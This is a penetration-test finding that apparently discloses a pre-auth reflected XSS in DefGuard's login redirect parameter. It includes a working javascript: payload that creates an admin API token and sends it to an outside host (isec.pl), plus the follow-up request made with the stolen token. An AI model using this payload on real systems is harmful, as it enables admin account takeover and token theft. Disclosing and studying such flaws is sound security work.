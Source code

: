 ```yaml
---
title: "DG25-18: Reflected Cross-Site Scripting (XSS) leading to full account takeover"
severity: High
cvss_score: 8.1
cvss_string: "/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1559
---
```


### Technical details

1.  Non logged-in user visits below link:

`https://defguard.dvpnsec.net/auth/login?r=javascript:alert(document.domain)`

2.  After providing username and password and clicking Login button, XSS
    will be executed.

![](/images/pentest/DG25/img6.png)

The main issue with above payload, is that this is an pre-auth XSS. It
executes after clicking Login button - but before assigning the user\'s
session.To bypass this limitation - we\'ve used the window.open - to
open the DefGuard in the new window - where user will be finally logged
in - thus the session will be assigned to the user.As soon as the user
becomes logged in - we\'re utilizing XMLHttpRequest to create new API
Token via /api/v1/user/admin/api_token and send its result back to
isec.pl.

#### PoC - full account takeover:

1.  Non logged-in user visits below link:

`https://defguard.dvpnsec.net/auth/login?r=javascript:window.open('https://defguard.dvpnsec.net');var
xmlhttp = new XMLHttpRequest();xmlhttp.onreadystatechange = (e) =>
{window.location='https://isec.pl?'%2bxmlhttp.responseText};xmlhttp.open("POST",
"/api/v1/user/admin/api_token");xmlhttp.setRequestHeader("Content-Type",
"application/json");xmlhttp.send(JSON.stringify({ "name":
"qweqwe123xxxxxxx", "username": "admin" }))`

2.  After providing username and password and clicking Login button, XSS
    will be executed.

3.  window.open() assigns session to the current DOM.

4.  XMLHttpRequest sends request to `/api/v1/user/admin/api_token` which creates new API Token.

5.  API Token value is being send back to the attacker server via\
    window.location: `https://isec.pl/?{%22token%22:%22dg-ZAf9lWt6tJShBD6KzahF475GfDSAzAJa%22}`

1.  Attacker has now access to the freshly created API Token and can use
    it to perform operation on behalf of admin:

**Request:**\
\
**GET** /api/v1/me HTTP/2\
**Host:** defguard.dvpnsec.net\
**Authorization:** Bearer dg-ZAf9lWt6tJShBD6KzahF475GfDSAzAJa\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Fri, 08 Aug 2025 13:59:38 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 456\

```json
{ 
 "authorized_apps ":  [ 
 [ ... ] 
 ], 
 "email ":  "admin@defguard ", 
 "email_mfa_enabled ": false, 
 "enrolled ": true, 
 "first_name ":  "DefGuard ", 
 "groups ":  [ 
 "admin " 
 ], 
 "id ": 1, 
 "is_active ": true, 
 "is_admin ": true, 
 "last_name ":  "Administrator ", 
 "ldap_pass_requires_change ": false, 
 "mfa_enabled ": false, 
 "mfa_method ":  "None ", 
 "phone ":  " ", 
 "totp_enabled ": false, 
 "username ":  "admin " 
}
```